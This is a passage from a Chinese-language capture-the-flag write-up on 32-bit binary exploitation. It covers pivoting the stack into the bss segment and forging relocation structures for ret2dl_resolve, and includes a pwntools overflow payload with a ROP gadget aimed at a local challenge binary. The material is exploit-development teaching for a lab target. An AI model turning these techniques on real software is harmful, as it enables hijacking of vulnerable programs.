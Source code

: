 成功控制esp指向bss段

[![](https://s2.ax1x.com/2019/09/30/uYX7q0.png)](https://s2.ax1x.com/2019/09/30/uYX7q0.png)

改变了ESP，现在通过gadget让EBP也进入bss段。

```
from pwn import *

p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

fake_esp=fake_ecx-0x4
base_stage=fake_esp+0x800

gadget1=0x0804851b #pop ebp |ret

#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
payload+=p32(gadget1)
payload+=p32(base_stage)

p.sendline(payload)

#fake_struct

p.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXa5D.png)

到此，我们已经完成了对栈的完全控制，将栈转移到了bss这个地址固定的段。



## 0x02对Rel2dl的一些补充

### <a class="reference-link" name="FAKE_REL%E9%83%A8%E5%88%86"></a>FAKE_REL部分

解决问题:实际调试时候，如何判断自己伪造的结构被程序读取。

从plt表中跳入dl_reslove函数时候dl_resolve会根据你的reloc_argc找到你的JMPREL结构(我们伪造的)

伪造的r_info 可以先写0x107 ,看看能不能解析真正的read函数。如果不行说明伪造的结构有问题。

[![](https://s2.ax1x.com/2019/09/30/uYXB2d.png)](https://s2.ax1x.com/2019/09/30/uYXB2d.png)

源代码如下
